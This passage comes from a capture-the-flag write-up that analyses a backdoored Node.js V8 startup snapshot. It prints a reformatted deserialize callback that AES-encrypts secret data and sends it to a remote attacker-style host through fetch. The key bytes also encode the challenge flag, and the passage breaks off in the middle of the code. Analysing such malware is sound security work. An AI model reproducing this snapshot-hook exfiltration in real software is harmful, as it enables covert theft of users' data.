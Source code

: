 After searching for a bit, I found a page[^nodejs] which helped me understand what it is.
Don't worry, you don't have to read it, it is a nodejs snapshot, so let's see what's inside.

I had to scroll a bit, but I found something readable:

![Desktop View](/assets/img/htb_business/snappedshut/hex_javascript.png){: width="687" height="759" }
_Something sneaky is going on here_

If we reformat the code, it will be more readable. I also added some comments:

```javascript
require('v8').startupSnapshot.addDeserializeCallback(() => {
    // Function to encrypt the secret data and send it to a remote server
    function hook(secret) {
        const crypto = require('crypto');
        // Define a key for the AES-256-CBC encryption
        const key = Buffer.from([72, 84, 66, 123, 98, 52, 99, 107, 100, 48, 48, 114, 95, 49, 110, 95, 121, 48, 117, 114, 95, 115, 110, 52, 112, 115, 104, 48, 55, 33, 33, 125], 'utf-8');
        // Create a cipher using the key and an initialization vector of 16 bytes
        const cipher = crypto.createCipheriv('aes-256-cbc', key, Buffer.alloc(16));
        // Encrypt the secret data
        let enc = cipher.update(JSON.stringify(secret), 'utf-8', 'base64');
        enc += cipher.final('base64');
        // Send the encrypted data to a remote server using a POST request
        fetch("http://0l-xmarket.0merch-andise.htb", {
            mode: 'no-cors',
            method: 'POST',
```

[^binja]: <https://binary.ninja/>
[^nodejs]: <https://blog.logrocket.com/snapshot-flags-node-js-v18-8/>